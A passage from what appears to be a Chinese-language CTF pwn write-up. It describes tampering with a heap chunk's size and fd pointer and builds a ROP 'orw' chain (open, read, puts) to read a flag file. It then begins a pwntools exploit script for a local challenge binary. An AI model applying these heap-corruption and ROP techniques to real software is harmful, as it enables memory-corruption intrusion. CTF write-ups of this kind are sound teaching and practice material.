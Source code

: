 然后改变一下 size 和 fd 指针

[![](assets/1701612363-4e7334d17f48473032150d16e6320633.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213158-fc1d1194-19a5-1.png)

```bash
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200
pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(0) + p64(open_addr)
pl+=p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(ppp) + p64(pop_rdx_ret) + p64(0x50) + p64(read_addr)
pl+=p64(pop_rdi_ret) + p64(ppp) + p64(puts_addr)
add(0x80, pl)
```

然后打个 orw 就行了  
成功读取我写入本地文件夹中的 flag

[![](assets/1701612363-daedef011179d1c950399ed8b42f4005.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703213221-099a9a62-19a6-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28107)
elf = ELF('./pwn')
libc=ELF('./libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()
```